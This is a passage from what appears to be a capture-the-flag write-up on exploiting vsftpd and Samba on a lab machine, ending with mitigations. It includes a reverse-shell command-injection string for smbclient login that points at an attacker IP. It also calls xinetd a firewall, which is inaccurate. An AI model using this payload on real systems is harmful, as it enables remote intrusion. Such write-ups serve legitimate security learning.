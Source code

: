 ```
While performing login through smbclient, we can provide the following string *"/=nohup bash -i >& /dev/tcp/Attacker_IP/4444 0>&1* to spawn a reverse shell on our IP at 4444 port number. The value */=nohup* makes all this possible. 


## BONUS: Why vsftpd exploit was not working

Once I got the root access and when I was finished with the flags, I wanted to see that why vsftpd's exploit was not working. It is out of the scope of machine-pwning, but it is always a good practice to see where you went wrong. I started scanning the ports that were listening within the system, and now I am inside the target so I might see more listening ports than the output we got from nmap. It is because some of the ports might be filtered by firewall and standard nmap scan will not display them.

I performed the following command on the target system to look for listening ports:
`netstat -tnlp`

**Command Explaination:**
1. **netstat:** a network utility used to display network connections, routing tables, interface statistics, and multicast memberships.
2. **-t:** displaying TCP connections
3. **-n:** Displays numerical addresses and port numbers
4. **-l:** Filters the output to show listening ports
5. **-p:** This option shows the process ID (PID) and the name of the program that is using each socket

![[12.png]]

On the above image, I have marked a specific port with red line. It is port 21, which we saw during the nmap scan as **vsftpd**, but here we can see that the PID and name shown is **5440 and xinetd**. Weird, right? We were able to access ftp when we tried anonymous login, but there is no vsftpd here, why? I had a slight doubt, that this service is a firewall and after some googling, I was confirmed that **xinetd** is a firewall, that uses things like TCP wrapper to avoid malicious connections on a port or service. When an organization is running a vulnerable port/service, but they cannot update it due to the dependencies of other things on it, they generally cover the port with a firewall service that will avoid malicious traffic coming at the port. Fortunately, for us we are already inside the target and hence we can use vsftpd's exploit from within. 

## Vulnerabilities fix

We found 3 known vulnerabilities while pwning the system, I will here also refer on how to avoid these vulnerabilities and make your system stronger. 

### FTP anonymous login
Anonymous login gave us nothing here, but many a times it can be dangerous. Best practice is to disable anonymous login from the configuration file of vsftpd or any other ftp service. I have attached an image below with a configuration file that do not allow anonymous login.

![[14.png]]


As shown in the image, the configuration file has `anonymous_enable=NO` which will disable anonymous login over ftp service.

### FTP CVE-2011-2523

There was another well-known vulnerability in vsftpd 2.3.4 that we tried to exploit, but the silly firewall came in between. The recommended mitigation for this is to update the version of vsftpd service (above 2.3.4), and for some critical reasons if you cannot update it, then wrap the service with a firewall. 

### Samba CVE-2007-2447

```
